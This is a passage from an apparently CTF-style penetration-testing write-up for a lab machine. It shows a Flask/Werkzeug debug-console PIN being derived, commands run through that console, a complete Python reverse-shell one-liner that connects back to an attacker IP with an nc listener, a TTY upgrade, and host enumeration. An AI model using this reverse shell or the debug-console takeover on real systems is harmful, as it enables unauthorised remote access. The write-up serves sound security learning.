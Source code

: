 When executed, this give th PIN code that is validated by the application:

```text
124-661-574
('www-data', 'flask.app', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py', '345052407874', 'ed5b159560f54721827644bc9b220d00superpass.service')
```

We can now access the console and access the target host :

![[Pasted image 20230709214337.png]]

```python
__import__('os').popen('whoami').read();
'www-data'
```

We can now open a reverse shell :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/usr/bin/bash","-i"]);
```

```shell
nc -nvlp 4444
```

We can upgrade the shell to a full TTY shell:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

Let's enumerate that host 

```shell
ls /home
```

```text
corum
dev_admin
edwards
```


```shell
uname -a
```

```text
Linux agile 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We can use linPEAS to enumerate that host.
